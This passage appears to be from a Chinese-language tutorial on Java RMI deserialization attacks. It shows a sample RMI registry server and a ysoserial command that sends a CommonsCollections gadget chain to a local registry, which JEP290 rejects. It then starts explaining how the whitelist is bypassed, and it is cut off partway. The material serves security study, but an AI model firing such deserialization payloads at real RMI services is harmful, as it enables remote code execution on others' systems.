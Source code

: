 服务端

```
package RMIunser;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class Server {
    public static String HOST = "127.0.0.1";
    public static int PORT = 1099;
    public static String RMI_PATH = "/hello";
    public static final String RMI_NAME = "rmi://" + HOST + ":" + PORT + RMI_PATH;

    public static void main(String[] args) {
        try {
            // 注册RMI端口
            LocateRegistry.createRegistry(PORT);
            // 创建一个服务
            Hello hello = new HelloImpl();
            // 服务命名绑定
            Naming.rebind(RMI_NAME, hello);

            System.out.println("启动RMI服务在" + RMI_NAME);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

用8u121以后的版本，客户端yso发包用CC6打一下打一下试试

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 1099 CommonsCollections calc
```

![image-20220412232221185](images/8.png)

返回了REJECTED被拦截了，这里虽然8u201用CC1是打不通的，但是报错可以看到是被拦截了

![image-20220412232329381](images/9.png)

从服务端也可以看到拦截了下来

但是当攻击客户端的时候，JEP290是不会起作用的

# JEP290 Bypass

既然是白名单，绕过方式可想而知，就是从白名单里面去寻找可以反序列化的Gadget

其实这里和JRMP服务端攻击客户端的方式有点像

之前是通过ysoserial起一个恶意的服务端
